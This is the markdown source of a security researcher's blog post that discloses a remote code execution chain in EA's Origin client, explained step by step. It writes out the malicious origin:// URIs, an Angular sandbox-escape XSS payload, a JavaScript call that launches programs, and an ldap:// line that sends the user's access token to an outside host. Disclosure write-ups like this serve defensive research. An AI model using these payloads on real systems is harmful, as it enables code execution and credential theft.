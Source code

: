 ```yaml
---
layout: post
title: A Questionable Journey From XSS to RCE
snippet: Electronic Arts' Origin Client suffered from a vulnerability that allowed attackers to leverage remote code execution... all because of a simple content injection issue.
tags: [xss, rce]
---
```


### Author: [Dominik Penner](https://twitter.com/zer0pwn)

# Introduction

As many of you reading this probably already know, in mid April, a good friend of mine (@Daley) and I located a Remote Code Execution vulnerability in EA's Origin client (CVE-2019-11354). Today I'm going to go in depth on how we discovered this vulnerability, along with a couple others we needed to chain along the way ;pp

[![]({{site.baseurl}}/assets/calc.gif "Origin RCE")]({{site.baseurl}}/assets/calc.gif)

# Debugging Origin

A lot of what was discovered was enabled by QtWebEngine debugging. By passing a specific flag to the origin process, we can hook Chrome devtools to the process and inspect the web view.

In order to set up remote debugging, you have to enable port-forwarding in the chrome devtools. To do this you need to start chrome and open the devtools. From there, open the Remote Devices view, enable port forwarding, and fill in the settings as needed.

Now we can start the origin process.

```
Origin.exe --remote-debugging-port=31337
```

If you navigate to localhost:31337 in chrome, you'll be met with the devtools, and from there, you can do all the poking around you need.




# Origin URI Handler

URI exploitation isn't new by any means. For a long time it has provided reliable ways of delivering payloads and executing commands on remote computers. The idea of being able to execute remote commands by simply having your target visit a web-page is obviously more than ideal to any threat actor.

In this scenario, the whole idea behind registering a custom URI handler is for ease-of-access. For example, Origin's handler is mainly there to be able to launch or purchase games from your web-browser. As soon as you click one of those links, your Origin client will launch with the parameters supplied by the crafted URI.

The Origin URI provides us with a few options we can use. To launch a game, we can use the following URI. This option gives us a few parameters. That's where we'll find our first bug.

```
origin://game/launch/?offerIds=OFFERID
```

# The First Bug (Template Injection)

The first bug relies on the fact that when Origin recieves an invalid game ID, it gives you the option to manually add it to your game library. In the dialog that pops up, it also echoes out the title of the game you'd like to add. If the game isn't recognized by Origin, how is it supposed to fetch a title, you may be asking. That's where the "title" parameter comes in handy.

We can quite literally specify any title we want by simply using the following link:

```
origin://game/launch/?offerIds=0&title=zer0pwn
```

This initially prompted me to try injecting HTML to see if maybe there was a possibility for XSS. You can tell that the HTML is being interpreted when you use the following link:

```
origin://game/launch/?offerIds=0&title=<h1>zer0pwn
```

I figured it would be as simple as injecting script tags to execute javascript, however this was not the case. After a little bit of digging, I discovered that the front-end is primarily developed in Angular. Angular does a lot of stuff with templating, so I figured maybe there was a possibility of template injection. Sure enough, a simple payload of 7\*7 got evaluated.

```
origin://game/launch/?offerIds=0&title={%raw%}{{7*7}}{%endraw%}
```

# The Second Bug (XSS)

Obviously with a client-side template injection vulnerability, we're limited to executing actions on the client. However, we can leverage this to evaluate our own Javascript and potentially compromise user sessions.

Angular is notorious for sandboxing, which means that we're going to have to do some funky scripting in order to execute what we want. Thankfully some researchers have already compiled a gist of Angular sandbox-escapes, which is what we used.

By using the following payload in the title param, we were able to pop an alert box (l33th4x!!!!11)

```
{%raw%}{{a=toString().constructor.prototype;a.charAt=a.trim;$eval('a,alert(l),a')}}{%endraw%}
```

# The Third Bug  (RCE)

Now, this part of the exploit is relatively trivial. QDesktopServices itself isn't necessarily vulnerable here, however the way that Origin has implemented it, on top of the other vulnerabilties, it ended up with a pretty nasty result.

According to the Qt documentation, "The QDesktopServices class provides methods for accessing common desktop services. Many desktop environments provide services that can be used by applications to perform common tasks, such as opening a web page, in a way that is both consistent and takes into account the user's application preferences."

Now here's the crazy part... There is actually an SDK (by Origin) in which you can communicate with the client's QDesktopServices via a javascript library. This only works if it's launched within the Origin client (obviously).

By accessing Origin.client.desktopServices in the DOM, we can find the following functions:

```javascript
: function asyncOpenUrl()​
: function asyncOpenUrlWithEADPSSO()​
: function deminiaturize()​
: function flashIcon()​
: function formatBytes()​
: function getVolumeDiskSpace()​
: function isMiniaturized()​
: function miniaturize()​
: function moveWindowToForeground()​
: function setNextWindowUUID()​
: function showWindow()​
```

Some of these functions are pretty cool. If you call ```flashIcon()```, you'll see the Origin icon flashing (big surprise, right). Most of the functions are pretty self explanatory actually, so I won't bother going into them.

What we had luck with was ```asyncOpenUrl()```. This function basically calls QDesktopServices ```openUrl()``` function, which in turn opens a web browser, or whatever application is registered with the provided URI. According to the documentation, you can also load local resources. Sounds promising, right ;)?

We can literally open a calculator with the following javascript:

```javascript
Origin.client.desktopServices.asyncOpenUrl("calc.exe")
```

# What else can we do?

As I mentioned earlier, Origin has a CSP in place which makes exfiltration somewhat difficult. If we use the ```ldap://``` URI handler in conjunction with ```asyncOpenUrl()```, we can send an LDAP request along with the data we want to exfiltrate. 

```
"ldap://safe.tld/o="+Origin.user.accessToken()+",c=UnderDog"
```

From the server, start tcpdump and set the necessary filters and you should see the data being transmitted in plaintext.

The ```Origin.user``` object contains a bunch of other information as well.

```javascript
: function accessToken()​
: function country()​
: function dob()​
: function email()​
: function emailStatus()​
: function globalEmailSignup()​
: function isAccessTokenExpired()​
: function originId()​
: function personaId()​
: function registrationDate()​
: function sessionGUID()​
: function showPersona()​
: function tfaSignup()​
: function underAge()​
: function userGUID()​
: function userPid()​
: userStatus()
```

# Wasn't this patched?

Electronic Art's rolled out a patch, however there are bypasses available as some on Twitter have decided to share. This highlights the issue once again and should be addressed by sanitizing all types of input, as the initial patch failed to do so.

# References
* [https://gist.github.com/jeremybuis/38c01acae19fc2ac6959](https://gist.github.com/jeremybuis/38c01acae19fc2ac6959)
* [https://blog.underdogsecurity.com/rce_in_origin_client/](https://blog.underdogsecurity.com/rce_in_origin_client/)
* [https://doc.qt.io/qt-5/qdesktopservices.html](https://doc.qt.io/qt-5/qdesktopservices.html)